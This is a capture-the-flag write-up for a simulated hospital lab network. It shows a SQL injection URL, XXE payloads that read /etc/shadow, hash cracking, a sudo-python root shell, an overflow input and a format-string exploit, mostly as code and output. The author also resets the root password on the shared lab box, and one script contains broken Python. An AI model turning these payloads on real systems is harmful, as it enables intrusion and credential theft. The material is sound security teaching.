


# Max's CTF
---

## Rules
1. The firewall (10.13.37.1) is out-of-bounds
2. The scoreboard (10.13.37.2) is out-of-bounds
3. Scoreboard is available at scoreboard.cyber (10.13.37.2)
4. Port 2222 on any of the machines is out-of-bounds
5. Disabling running services is out-of-bounds; Your openvpn config will be revoked.
6. More rules may be added later - These will be announced.
---

## Initial Nmap Scan

`$ nmap -sV --script=http-enum --version-intensity 5 10.13.37.1/24 -e tun0`

Nmap scan report for 10.13.37.1 (PFSENSE)

| Port | State | Service  | Version |
| -----|:-----:| ---------|---------|
|22/tcp|  open|  ssh|      OpenSSH 7.2 (protocol 2.0)
|53/tcp|  open|  domain|
|80/tcp|  open|  http|     nginx
|443/tcp| open|  ssl/http| nginx

Nmap scan report for 10.13.37.2 (SCOREBOARD)

| Port | State | Service  | Version |
| -----|:-----:| ---------|---------|
|22/tcp| open|  ssh|     OpenSSH 6.6.1 (protocol 2.0)
|80/tcp| open|  http|    Node.js (Express middleware)
```
| http-enum: 
|_  /login/: Login page
```

Nmap scan report for 10.13.37.3 (Host 1)

| Port | State | Service  | Version |
| -----|:-----:| ---------|---------|
|22/tcp|   closed| ssh|
|80/tcp|   open|   http|    Node.js Express framework
|2222/tcp| open|   ssh|     OpenSSH 6.6.1 (protocol 2.0)
|7777/tcp| open|   cbt?|
```
| fingerprint-strings: 
|   Arucer, NULL, X11Probe: 
|     Welcome to the East Coast Hospital authentication system. There is only one password for this box. You can tell if you got the password correct because the status will be 144 (In decimal), and it will give you the flag. The password is at most 15 characters.
|     Password:
|     Your current status is 0
|_    Sorry, the status is incorrect
```

Nmap scan report for 10.13.37.4 (Host 2)

| Port | State | Service  | Version |
| -----|:-----:| ---------|---------|
|22/tcp|   open|  ssh|     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
|80/tcp|   open|  http|    Node.js (Express middleware)
|2222/tcp| open|  ssh|     OpenSSH 6.6.1 (protocol 2.0)

Nmap scan report for 10.13.37.5 (Host 3)

| Port | State | Service  |
| -----|:-----:| ---------|
|22/tcp|   open|  ssh
|80/tcp|   open|  http
|2222/tcp| open|  EtherNetIP-1
|7777/tcp| open|  cbt
|8080/tcp| open|  http-proxy
```
| http-enum: 
|   /examples/: Sample scripts
|   /manager/html/upload: Apache Tomcat (401 )
|   /manager/html: Apache Tomcat (401 )
|_  /docs/: Potentially interesting folder
```

---

## Flag 1

I went to the submission page on the scoreboard here: http://10.13.37.2/submit

I saw "Download PCAP Here".

The file is of type "pcapng" and the filename is "whereismymind.pcapng".

The first thing I did was open up wireshark, a really common and friendly pcap analysis tool.

Whenever I have packet captures in a CTF, the first thing I do in wireshark is check if there are any HTTP objects in the file. This can be done by going to File > Export Objects > HTTP.

If there are any objects listed, export them and then take a peek at what they contain.

Seeing as there's no HTTP traffic, there probably weren't going to be any HTTP objects.

My next guess was to follow the TCP streams until something gave me some information.

Setting my filter to `tcp.stream eq 1`, right clicking the first packet listed, and selecting the "Follow TCP Stream" option led me to see that there are 0 bytes in the conversation, so I set my filter to `tcp.stream eq 2`. This again resulted in a 0 byte conversation. TCP stream 3, however, resulted in a 7807 byte conversation and at the very top you can see "flag.png".



By selecting the "Hex Dump" option of the tcp stream, we can see the first few hex bytes. A quick google search of "1f 8b" lets us know this is a gzip archive, and we can assume flag.png is inside of it.

* https://en.wikipedia.org/wiki/List_of_file_signatures

All we have to do now is click "Raw" and "Save as" and save our file as "flag.gz" or "flag.tar.gz" and use tar or gunzip to extract the file.


Note:
Strings works on pcapngs. "flag.png" was readily readable by running strings on it.
You can get some interesting metadata of pcapng files by uploading them to pcapng.com

---

## Flag 2

Nmap scan leads us to believe there is a web server hosted on `10.13.37.4`.

| Port | State | Service  | Version|
| ------------- |:-------------:| -----|---|
|22/tcp|open| ssh  |   OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)|
|80/tcp|open|http|Node.js (Express middleware)|
2222/tcp|open|ssh|OpenSSH 6.6.1 (protocol 2.0)|

Navigating to http://10.13.37.4 leads us to an ugly web page.

Viewing the source gives us the flag in an HTML comment.


---

## Flag 3

My first idea was to just dump every option available on the web page. This didn't give me anything, but did eliminate the possibility that the admin info was hiding in the options list.

```Python
#!/usr/bin/env python3

import urllib.request
from bs4 import BeautifulSoup

def getIDList(url):
	IDList = []

	with urllib.request.urlopen(url) as response:
		html = response.read()

	soup = BeautifulSoup(html, 'html.parser')
	
	for patID in soup.find_all('option'):
		IDList.append(patID.get("value"))

	return IDList

def main():
	pass = "mTvkHrQdaPHLp477"
	IDList = getIDList("http://10.13.37.4/")

	for patID in IDList:
		url = "http://10.13.37.4/api/viewPatient?password=" + pass + "&patientID=" + patID
		with urllib.request.urlopen(url) as response:
			html = response.read()
			print(html)

if __name__ == "__main__":
	main()
```

Output:

```
b'{"data":[{"id":"47861","name":"Nathen Hahn","street":"65578 Christophe Ferry","email":"Jan42@hotmail.com"}]}'
<-- snip -->
b'{"data":[{"id":"97615","name":"Adrienne Schoen","street":"856 Pietro Forge","email":"Emanuel38@hotmail.com"}]}'
```

Full results can be found in `flag3/api.results`.

I decided to mess with the API a bit more and try and grab typical IDs of administrators.

After a couple seconds, I was able to grab the flag from the following URL:

`http://10.13.37.4/api/viewPatient?password=mTvkHrQdaPHLp477&patientID=admin`

This was later patched to patientID=zzzzzzzzzz.

The intended way of figuring this challenge out is through a basic SQL injection which dumps the entire database.

`http://10.13.37.4/api/viewPatient?password=mTvkHrQdaPHLp477&patientID=%27%20or%201=1%20--`

Picture below is isolating the admin creds by ID.


---

## Flag 4

Earlier we scanned `10.13.37.3` and found that it also had a webserver running on it.

Nmap

| Port | State | Service  | Version |
| -----|:-----:| ---------|---------|
|22/tcp|   closed| ssh|
|80/tcp|   open|   http|    Node.js Express framework
|2222/tcp| open|   ssh|     OpenSSH 6.6.1 (protocol 2.0)
|7777/tcp| open|   cbt?|

Navigate to `http://10.13.37.3/` and we come to a webpage.


I usually like to find out about the information the api is sending, so I view the source and start crafting a request.


We can see that it takes one thing: an ip. This means all we have to do is submit a post request to `http://10.13.37.3/api/isUp` with the data being an ip.

We can use Tamper Chrome to alter POST requests, so I gave that a shot first. As it turns out, submitting a normal post request leaves the flag in the header!

Tamper Chrome:


I wanted a way to do it in Python in case I need to hit the API in the future.

```Python
import requests
r = requests.post("http://10.13.37.3/api/isUp", data={'ip' : "10.13.37.4"})
print(r.headers, r.content)
```


I also tried abusing the API to see if it would yield any interesting results for the subnet.

```Python
#!/usr/bin/env python3

import requests
import sys
import json
from pprint import pprint

if len(sys.argv) == 1:
	print ("Bad egg behavior")
else:
	if sys.argv[1] == "all":
		print("Trying all IPs")
		for i in range(255):
			ip = "10.13.37." + str(i)
			print("POSTing http://10.13.37.3/api/isUp?ip=" + ip)
			r = requests.post("http://10.13.37.3/api/isUp", data={'ip' : ip})
			print(r.headers)
			print(json.dumps(r.json(), indent=4))
	else:
		ip = sys.argv[1]
		r = requests.post("http://10.13.37.3/api/isUp", data={'ip' : ip})
		print(r.headers)
		print(json.dumps(r.json(), indent=4))
```

It didn't. I just felt bad for abusing the network.

---

## Flag 5

Our previous NMAP scans let us know that there was an open port on port 7777 for the 10.13.37.3 host.

Nmap

| Port | State | Service  | Version |
| -----|:-----:| ---------|---------|
|22/tcp|   closed| ssh|
|80/tcp|   open|   http|    Node.js Express framework
|2222/tcp| open|   ssh|     OpenSSH 6.6.1 (protocol 2.0)
|7777/tcp| open|   cbt?|

We can perform a test scan using -z and -v to let us know if it's possible to connect to the port.

`-z` Specifies that nc should just scan for listening daemons, without sending any data to them.
`-v` Have nc give more verbose output.

`$ nc -zv 10.13.37.3 7777`

Output:

```
Connection to 10.13.37.3 7777 port [tcp/cbt] succeeded!
```

Successfully connecting to it with `nc 10.13.37.3 7777` yields us this prompt:

```
Welcome to the East Coast Hospital authentication system. There is only one password for this box. You can tell if you got the password correct because the status will be 144 (In decimal), and it will give you the flag. The password is at most 15 characters.
Password: 

Your current status is 0
Sorry, the status is incorrect
```

It blatantly tells us that our goal is to get the status to 144 in decimal. That's excellent. It also says "at most 15 characters" which tells me that we're going to be using more than 15 characters.

We can start off manually fuzzing it a bit to see what our outputs are.

This first attempt is simply to overflow the status and get us a number besides 0.

```
Welcome to the East Coast Hospital authentication system. There is only one password for this box. You can tell if you got the password correct because the status will be 144 (In decimal), and it will give you the flag. The password is at most 15 characters.

Password: @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@

Your current status is 4210752
Sorry, the status is incorrect
```

Now we know that it is possible to get a number other than 0 or 144 regardless of correctness. I'm going to stick with typical ascii values that I'm familiar with for the remainder of the challenge.

The following two attempts show us that there is a bound we want to hit in regards to it not affecting the number anymore versus affecting the number. If we can work out the right position, we may be able to alter it more in our favor.

```
Password: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Your current status is 1633771873
Sorry, the status is incorrect
```

```
Password: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Your current status is 1633771873
Sorry, the status is incorrect
```

```
Password: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Your current status is 24929
Sorry, the status is incorrect
```
At this point, we are getting closer to our target number, but not quite there yet.

```
Password: aaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Your current status is 97
Sorry, the status is incorrect
```

Excellent news, we just hit 97 which is the decimal value for `a` on the ASCII table. We can confirm this is the case for multiple inputs by using the same length and different characters (for example `b` and `c`).

```
Password: bbbbbbbbbbbbbbbbbbbbbbbbbbbbb

Your current status is 98
Sorry, the status is incorrect

Password: ccccccccccccccccccccccccccccc

Your current status is 99
Sorry, the status is incorrect
```

Now that we know our length of input is correct, we can test what exactly alters the status number. By changing the very last character, our status changes.

```
Password: ccccccccccccccccccccccccccccb

Your current status is 98
Sorry, the status is incorrect
```

What we now know is that the 29th character is what we have to use to get us the status we need. Our only problem is that the normal ASCII table only goes up to 126. Can we use the Extended ASCII table?

```
Password: ccccccccccccccccccccccccccccÉ

Your current status is 35267
Sorry, the status is incorrect
```

Unfortunately, no. Is there any other way to make that character?

`$ echo -e "\x90"`

Output:

```
É
```

Now we have a way to create that character, so if we echo it normally into netcat will it run just fine?

`$ echo "bbbbbbbbbbbbbbbbbbbbbbbbbbbbb" | nc 10.13.37.3 7777`

Output:

```
Welcome to the East Coast Hospital authentication system. There is only one password for this box. You can tell if you got the password correct because the status will be 144 (In decimal), and it will give you the flag. The password is at most 15 characters.
Password: 
Your current status is 98
Sorry, the status is incorrect
```

We just proved that we can pipe the echo of a normal input into netcat, so if we add the -e flag we can replace the final character with the hex character that we need in order to get the final flag.

`$ echo -e "bbbbbbbbbbbbbbbbbbbbbbbbbbbb\x90" | nc 10.13.37.3 7777`

Output:

```
Welcome to the East Coast Hospital authentication system. There is only one password for this box. You can tell if you got the password correct because the status will be 144 (In decimal), and it will give you the flag. The password is at most 15 characters.
 Password: 
Your current status is 144
XXmUBaC2fJFb4S7U
```


---

## Flag 6

We haven't touch the `10.13.37.5` box yet, so let's give that a shot.

Our Nmap scan shows up that it's also running a webserver.

| Port | State | Service  |
| -----|:-----:| ---------|
|22/tcp|   open|  ssh
|80/tcp|   open|  http
|2222/tcp| open|  EtherNetIP-1
|7777/tcp| open|  cbt
|8080/tcp| open|  http-proxy

Navigate to `http://10.13.37.5` and we get this inviting webpage.


Taking a look into the source gives us a hint as to what we need to do in order to exploit the page.


It tells us that we need to be using an XML exploit of some sort. The first one that came to my mind was XML injection. You can use it to edit XML files/databases. This sounded like a great idea at first. I'll just use some simple XML injection to write myself in as an admin user!

More information on XML injection here:

* https://www.owasp.org/index.php/Testing_for_XML_Injection_(OTG-INPVAL-008)

* http://projects.webappsec.org/w/page/13247004/XML%20Injection

Without really thinking about it, I started plugging in some tests for XML injection. Of course it got me nowhere. I wasn't trying to understand the problem at hand.

By looking into the source of the site, we can see that the fields we input are `firstname` and `lastname`. There are no IDs or a login form anywhere, so manipulating an entry to an XML file would get me nowhere.

```JS
$('#submit').click(function(e){
	e.preventDefault();
	var firstname = $('#firstname').val();
	var lastname = $('#lastname').val();
	var xmlTemplate = '<?xml version="1.0" encoding="ISO-8859-1"?>'+
			'<person>'+
				'<firstname>'+ firstname + '</firstname>'+
				'<lastname>'+ lastname + '</lastname>'+
			'</person>';
	$.ajax({
		type: 'POST',
		url: '/',
		data: {'data': xmlTemplate },
		dataType: 'json'
	}).done(function(data) {
		$('#error').text(data.message);
	}).fail(function(data) {
		$('#error').text(data.error);
	});
});
```

After some more research, I found out about an interesting XML attack called XML External Entity or XXE for short. With this attack you can access local files. Let's try and see what we can do.

First attempt was a copy and paste straight from

* https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing.

```XML
<?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///dev/random" >]><foo>&xxe;</foo>
```

Fortunately for me, this brought down the box really fast (it used up all its memory trying to give me the response of /dev/random). This was later patched to prevent other users from being unable to access the box. I now know that this is the attack I want to perform on the page.

To actually get anything useful however, I'll need to target a file that gives me some information. One of the examples listed on the page above is to go for `/etc/passwd` and another for `/etc/shadow`. We can try both, but hashed passwords are stored in `/etc/shadow` so we can try that first.

We have to craft our attack according to the information on the website. What we're going to end up making is a valid XML Doctype Declaration or DTD for short. An XML document validated against a DTD is both "Well Formed" and "Valid".

Creating a DTD is as simple as specifying the outer part of your form next to `!DOCTYPE` and giving a fill in word for your entity. Below is a "foo, bar, baz" example. The only important word here is the one next to `!DOCTYPE`.

```XML
<!DOCTYPE foo [
    <!ENTITY baz SYSTEM "file:///etc/shadow">
]>
<foo>
    <bar>&baz;</bar>
</foo>
```

The outer part of our form is "person", so that will be what goes next to our "!DOCTYPE" declaration.

```XML
<!DOCTYPE person [
    <!ENTITY file SYSTEM "file:///etc/shadow">
]>
<person>
<firstname>lol</firstname>
<lastname>&file;</lastname>
</person>
```

More information on XML DTD's can be found here.

* https://www.w3schools.com/xml/xml_dtd.asp

One major issue I had was newlines. When making a request, make sure that you do not have newlines in your form.


```Python
import requests
xml = '''<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE person [<!ENTITY file SYSTEM "file:///etc/shadow" >]><person><firstname>lol</firstname><lastname>&file;</lastname></person>'''
r = requests.post("http://10.13.37.5", data={'data' : xml})
print(r.text)
```

Passwd:


Shadow:


The full shadow file can be found at `Flag 6/shadow.out`.

Off to OCL Hashcat to crack this hash.

`$6$1Jd5DXoG$OhmKkC7CAN8E.CXeyV2eRhcOYM.qcRvGYI1BXFKKkCmyCsaUXkwXpRvb0AKsi1FuYuCefpSLpK4XQnN9v9ACP.:linuxgentoo`
```                                                        
Session..........: hashcat
Status...........: Cracked
Hash.Type........: sha512crypt $6$, SHA512 (Unix)
Hash.Target......: $6$1Jd5DXoG$OhmKkC7CAN8E.CXeyV2eRhcOYM.qcRvGYI1BXFK...v9ACP.
Time.Started.....: Wed Jul 12 20:01:13 2017 (3 mins, 1 sec)
Time.Estimated...: Wed Jul 12 20:04:14 2017 (0 secs)
Guess.Base.......: File (usedhashes/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.Dev.#1.....:    33865 H/s (7.54ms)
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 6190726/14343296 (43.16%)
Rejected.........: 51846/6190726 (0.84%)
Restore.Point....: 6133621/14343296 (42.76%)
Candidates.#1....: llljmbb4l -> lilreeceere2k8
HWMon.Dev.#1.....: Temp: 85c Util: 99% Core:1037MHz Mem:2505MHz Bus:16

Started: Wed Jul 12 20:01:04 2017
Stopped: Wed Jul 12 20:04:16 2017
```

Our flag is `linuxgentoo`. This also serves as a password we can use to ssh into the box.

---

## Flag 7

Flag 7 deals with the post exploitation of the box we compromised in Flag 6.

### Post Exploitation

I quickly made my way over to `/etc/sudoers`.

`$ cat /etc/sudoers | grep "sshuser"`

Output:

```
sshuser ALL=NOPASSWD: /usr/bin/python
```

What files do we have in root?

```Python
#!/usr/bin/python
import os

for filename in os.listdir("/root/"):
    print (filename)
    f = open('/root/'+filename,'r')
    message = f.read()
    print(message)
    f.close()
```

We get a clear view of the tomcat-users.xml file.

```XML
<?xml version='1.0' encoding='utf-8'?>
<tomcat-users>
    <role rolename="manager-gui"/>
    <user username="tomcat" password="yxzT2cgQAbb73jRg" roles="manager-gui"/>
</tomcat-users>
```

I thought this was kind of dumb to have a website-related flag there, so I moved it to `/srv/tomcat/tomcat-users.xml`.
Might have been rude, but it made more sense to have a home there.


Let's do some priv esc!

```Python
#!/usr/bin/python
import os
os.system('/bin/bash')
```

That was easy...

Now we have a root shell, so I'll just go ahead and change the password to `nickisthebest`.

---

## Flag 8

Flag 8 **requires** root on the box from Flags 6 and 7. 

Nmap

| Port | State | Service  |
| -----|:-----:| ---------|
|22/tcp|   open|  ssh
|80/tcp|   open|  http
|2222/tcp| open|  EtherNetIP-1
|7777/tcp| open|  cbt
|8080/tcp| open|  http-proxy

The binary we're going to be targeting is found remotely at `10.13.37.5:7777`.

The binary we need to have in order to target it, is found on the box at `/root/password_manager`.

I installed secure copy (scp) with `yum install scp` in order to get it off the box easily.

References:

* https://www.exploit-db.com/docs/28476.pdf

* https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf

* http://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html

* http://www.cgsecurity.org/Articles/SecProg/Art4/

`readelf -h binary`

Output:

```
ELF Header:
  Magic:   7f 45 4c 46 01 01 01 00 00 00 00 00 00 00 00 00 
  Class:                             ELF32
  Data:                              2's complement, little endian
  Version:                           1 (current)
  OS/ABI:                            UNIX - System V
  ABI Version:                       0
  Type:                              EXEC (Executable file)
  Machine:                           Intel 80386
  Version:                           0x1
  Entry point address:               0x8048480
  Start of program headers:          52 (bytes into file)
  Start of section headers:          6400 (bytes into file)
  Flags:                             0x0
  Size of this header:               52 (bytes)
  Size of program headers:           32 (bytes)
  Number of program headers:         9
  Size of section headers:           40 (bytes)
  Number of section headers:         31
  Section header string table index: 28
```

First run through, it's printing what I give it back out to me. That's a possible sign of FSB.

```
$ ./binary
Hey, it's Dan again. This is a pretty cool program I made for managing my password. For some reason I can't get it to work though :\.
What is your username: hello
Hello: hello

You are the incorrect user
```

**Direct Parameter Accessing**:

Let's give it some formats and see what we get back!

`echo -e '|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x' | ./binary`

Output:

```
Hello: |40|f7697580|80482f3|0|fff7d994|0|7c78257c|257c7825|78257c78|7c78257c
```

We can see the start of our repeating block is `7c78257c`. In order to verify this, we can try and print a block of 'A's.

`echo -e 'AAAA|%x|%x|%x|%x|%x|%x|%x' | ./binary`

Output:

```
Hello: AAAA|40|f7739580|80482f3|0|ff9cefa4|0|41414141
```

As we can see, the seventh block is confirmed to be the one we want to exploit. We can narrow down to the Nth position in a short string as follows:

`echo -e 'AAAA|%7$x' | ./binary`

Output:

```
Hello: AAAA|41414141
```

I also modified a script to be able to automatically do this for you:

```BASH
for ((i = 1; i < 200; i++)); do 
	echo -e "AAAA%${i}\$x" | ./binary | grep "41414141" && echo -e "Match on line: ${i}" && break
done
```

Output:

```
What is your username: Hello: AAAA41414141
Match on line: 7
```

**Brute Force**:

Not 100% where to go from here, but this is a thing.

`echo -e 'AAAA|%u%u%u%u%u%u|%08x|' | ./binary`

`echo -e '\x4c\xa0\x04\x08|%u%u%u%u%u%u|%08x|' | ./binary`

`echo -e '\x4c\xa0\x04\x08|%u%u%u%u%u%u|___________%%|%s|' | ./binary`

Now we know that we're targeting the 7th parameter on the stack, we can test it on current known strings. Radare tells us that a string "cat_._authenticated.txt" exists at 0x80487b2.

`push str.cat_._authenticated.txt ; 0x80487b2`

The format we want to use is: `echo -e '<address>AA%<parameter>\$s'`

The address is "backwards" because it's little endian (if we go back to our readelf output, it tells us that). AA is a buffer so we can clearly see the text. We are targeting the 7th parameter. We want to print a string (s).

```
[nick@box Desktop]$ echo -e "\xb2\x87\x04\x08AA%7\$s" | ./binary
Hey, it's Dan again. This is a pretty cool program I made for managing my password. For some reason I can't get it to work though :\.
What is your username: Hello: <?><?>AAcat ./authenticated.txt

You are the incorrect user
```


0x0804860c      a14ca00408     mov eax, dword obj.id_number ; [0x804a04c:4]

0x08048611      3dadde0000     cmp eax, 0xdead

0x08048616      7533           jne 0x804864b

Now that we have a working exploit, how can we alter that to give us access? Three lines of interest came up. One moves a string into eax from 0x804a04c. The next compares eax to 0xdead. The last says "if eax is not equal to dead, jump elsewhere." This jump is what's causing us to be "unauthenticated" according to the program.

If we target the obj.id_number string, we can have the program move that into eax and the comparison will be equal.

How do we go about doing that?

The format we want to follow for this is: `echo -e '<address>%<value - bytes written>x%<target>$n'`

* Address is the string we want to attack in little-endian.
* Value is the value we want to inject into the string.
* Bytes written is the number of bytes written before we get to our value.
* Target is the parameter number that we've been using.
* $n is the same as %n. This format string causes printf() to load the variable
	pointed by the corresponding argument with a value equal to the number of
	characters that have been printed by printf() before the occurrence of %n.

We have all this information, so we can simply fill it in.

Address: `0x804a04c` = `\x4c\xa0\x04\x08`

Value: `0xDEAD`

Bytes Written: `len(Address)` = `4`

Target: `7`

Because we have written 4 bytes already, our value changes from 0xDEAD to 0xDEA9. We have to turn this into decimal form for it to work AFAIK.

`0xDEA9` in base 10 is `57001`.

Any of the following format strings work:

`echo -e '\x4c\xa0\x04\x08%57001c%7$n' | ./binary`

`echo -e '\x4c\xa0\x04\x08%57001d%7$n' | ./binary`

`echo -e '\x4c\xa0\x04\x08%57001x%7$n' | ./binary`

`echo -e '\x4c\xa0\x04\x08%57001u%7$n' | ./binary`

Now we get a long output of text and "Welcome Dan" which means that it worked on our local binary!

All we have left to do is exploit it remotely and cat the target file.
`echo -e '\x4c\xa0\x04\x08%57001c%7$n' | nc 10.13.37.5 7777`


---

## Final Scoreboard


